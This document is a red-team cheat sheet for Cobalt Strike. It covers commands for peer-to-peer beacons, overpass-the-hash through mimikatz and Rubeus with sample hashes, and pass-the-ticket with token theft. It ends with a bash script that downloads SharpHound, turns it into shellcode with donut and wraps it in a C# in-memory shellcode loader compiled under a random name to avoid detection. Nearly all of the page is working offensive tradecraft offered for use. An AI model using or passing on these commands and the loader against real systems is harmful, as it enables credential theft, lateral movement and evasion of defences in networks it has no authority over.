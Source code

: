 # Cobalt Strike

- [https://www.cobaltstrike.com/support](https://www.cobaltstrike.com/support)
- [https://www.cobaltstrike.com/aggressor-script/functions.html](https://www.cobaltstrike.com/aggressor-script/functions.html)
- [https://reconshell.com/list-of-awesome-cobaltstrike-resources/](https://reconshell.com/list-of-awesome-cobaltstrike-resources/)
- [https://github.com/S1ckB0y1337/Cobalt-Strike-CheatSheet](https://github.com/S1ckB0y1337/Cobalt-Strike-CheatSheet)




## P2P Beacons

Beacon TCP and Beacon SMB are Peer-to-Peer beacons which means they're used to chain a connection to an existent beacon. They act like bind shells and waits for the attacker to connect to them.

Connect to a TCP beacon:

```
beacon> connect <IP> <PORT>
```

Connect to an SMB beacon:

```
beacon> link <IP>
```




## Overpass-the-Hash

More opsec PtH than builtin `pth` command:

```
beacon> mimikatz sekurlsa::pth /user:snovvcrash /domain:megacorp.local /ntlm:fc525c9683e8fe067095ba2ddc971889
beacon> steal_token 1337
```

Same with Rubeus (must be in elevated context):

```
beacon> execute-assembly Rubeus.exe asktgt /user:snovvcrash /domain:megacorp.local /aes256:94b4d075fd15ba856b4b7f6a13f76133f5f5ffc280685518cad6f732302ce9ac /nowrap /opsec /createnetonly:C:\Windows\System32\cmd.exe
beacon> steal_token 1337
```

Use Rubeus with lower privileges:

```
beacon> execute-assembly Rubeus.exe asktgt /user:snovvcrash /domain:megacorp.local /aes256:94b4d075fd15ba856b4b7f6a13f76133f5f5ffc280685518cad6f732302ce9ac /nowrap /opsec

PS > [System.IO.File]::WriteAllBytes("C:\Windows\Tasks\tgt.kirbi", [System.Convert]::FromBase64String("<BASE64_TICKET>"))
Or
$ echo -en "<BASE64_TICKET>" | base64 -d > tgt.kirbi

beacon> run klist
Or
beacon> execute-assembly Rubeus.exe klist

beacon> make_token MEGACORP\snovvcrash dummy_Passw0rd!
beacon> kerberos_ticket_use C:\Windows\Tasks\tgt.kirbi
```




## Pass-the-Ticket

Create a sacrificial process, import the TGT into its logon session and steal its security token:

```
beacon> execute-assembly Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe
beacon> execute-assembly Rubeus.exe ptt /luid:0x1337 /ticket:<BASE64_TICKET>
beacon> beacon> steal_token 1337
```




## Pivoting




## BloodHound

* [https://github.com/l4ckyguy/ukn0w/commit/0823f51d01790ef53aa9406f99b6a75dfff7f146](https://github.com/l4ckyguy/ukn0w/commit/0823f51d01790ef53aa9406f99b6a75dfff7f146)

Grab the latest version of [SharpHound.exe](https://github.com/BloodHoundAD/BloodHound/blob/master/Collectors/SharpHound.exe), convert it to a shellcode with donut, insert bytes in a C# skeleton and cross-compile it for use in Windows with [Mono](https://linux.die.net/man/1/mcs) compiler:

{% code title="sweetblood.sh" %}
```bash
RNDNAME=`curl -sL https://github.com/penetrarnya-tm/WeaponizeKali.sh/raw/main/misc/binaries.txt | shuf -n1`
wget https://github.com/BloodHoundAD/BloodHound/raw/master/Collectors/SharpHound.exe -qO /tmp/SharpHound.exe

# --ldapusername snovvcrash --ldappassword Passw0rd!
~/tools/PEzor/deps/donut/donut -a2 -z2 -i /tmp/SharpHound.exe -p '--CollectionMethod All,LoggedOn --NoSaveCache --OutputDirectory C:\Windows\Tasks --ZipFilename sweetbl.zip' -o /tmp/SharpHound.bin

BUF=`xxd -i /tmp/SharpHound.bin | head -n-2 | tail -n+2 | tr -d ' ' | tr -d '\n'`
BUFSIZE=`xxd -i /tmp/SharpHound.bin | tail -n1 | awk '{print $5}' | tr -d ';\n'`

cat << EOF > "/tmp/$RNDNAME.cs"
using System;
using System.Runtime.InteropServices;

namespace Sh4rpH0und
{
    class Program
    {
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAlloc(IntPtr lpAddress, ulong dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        [DllImport("kernel32.dll")]
        static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

        static void Main(string[] args)
        {
            byte[] buf = new byte[$BUFSIZE] { $BUF };
            IntPtr addr = VirtualAlloc(IntPtr.Zero, (ulong)buf.Length, 0x1000, 0x40);
            Marshal.Copy(buf, 0, addr, buf.Length);
            IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
            WaitForSingleObject(hThread, 0xFFFFFFFF);
        }
    }
}
EOF

mcs -platform:x64 -t:winexe "/tmp/$RNDNAME.cs" -out:"$RNDNAME.exe"
file "$RNDNAME.exe"
rm "/tmp/SharpHound.exe" "/tmp/SharpHound.bin" "/tmp/$RNDNAME.cs"
```
{% endcode %}
